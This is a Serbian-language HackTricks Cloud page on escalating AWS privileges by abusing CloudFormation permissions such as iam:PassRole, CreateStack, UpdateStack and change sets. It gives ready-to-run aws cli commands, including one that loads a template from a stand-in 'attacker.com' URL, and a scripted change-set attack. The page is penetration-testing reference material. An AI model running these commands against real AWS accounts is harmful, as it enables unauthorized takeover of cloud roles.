 # AWS - Cloudformation Privesc

{% hint style="success" %}
Učite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Učite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## cloudformation

Za više informacija o cloudformation-u pogledajte:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Napadač sa ovim dozvolama **može eskalirati privilegije** kreiranjem **CloudFormation stack-a** sa prilagođenim šablonom, smeštenim na njihovom serveru, kako bi **izvršio akcije pod dozvolama određene uloge:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na sledećoj stranici imate **primer eksploatacije** sa dodatnim dozvolama **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencijalni uticaj:** Privesc na ulogu usluge cloudformation koja je navedena.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

U ovom slučaju možete **zloupotrebiti postojeći cloudformation stack** da biste ga ažurirali i eskalirali privilegije kao u prethodnom scenariju:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti da **sebi date dozvolu `UpdateStack`** nad stackom i izvršite napad.

**Potencijalni uticaj:** Privesc na ulogu usluge cloudformation koja je navedena.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ako imate ovu dozvolu ali **ne `iam:PassRole`** možete i dalje **ažurirati korišćene stackove** i zloupotrebiti **IAM uloge koje su već pridružene**. Proverite prethodni odeljak za primer eksploatacije (samo nemojte navesti ulogu u ažuriranju).

Dozvola `cloudformation:SetStackPolicy` može se koristiti da **sebi date dozvolu `UpdateStack`** nad stackom i izvršite napad.

**Potencijalni uticaj:** Privesc na ulogu usluge cloudformation koja je već pridružena.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Napadač sa dozvolama da **prođe ulogu i kreira & izvrši ChangeSet** može **kreirati/ažurirati novi cloudformation stack i zloupotrebiti uloge usluge cloudformation** baš kao i sa CreateStack ili UpdateStack.

Sledeći eksploit je **varijacija na** [**CreateStack eksploit**](./#iam-passrole-cloudformation-createstack) koristeći **ChangeSet dozvole** za kreiranje stacka.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Dozvola `cloudformation:SetStackPolicy` može se koristiti da biste **dodelili sebi dozvole za `ChangeSet`** nad stekom i izvršili napad.

**Potencijalni uticaj:** Eskalacija privilegija na uloge usluge cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ovo je slično prethodnoj metodi bez prosleđivanja **IAM uloga**, tako da možete jednostavno **zloupotrebiti već pridružene**, samo izmenite parametar:
```
--change-set-type UPDATE
```
**Potencijalni uticaj:** Privesc na ulogu usluge cloudformation već pridruženu.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napadač bi mogao zloupotrebiti ove dozvole da bi kreirao/ažurirao StackSets kako bi zloupotrebio/arbitrirao uloge cloudformation.

**Potencijalni uticaj:** Privesc na uloge usluge cloudformation.

### `cloudformation:UpdateStackSet`

Napadač bi mogao zloupotrebiti ovu dozvolu bez dozvole za PassRole da bi ažurirao StackSets kako bi zloupotrebio pridružene uloge cloudformation.

**Potencijalni uticaj:** Privesc na pridružene uloge cloudformation.

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
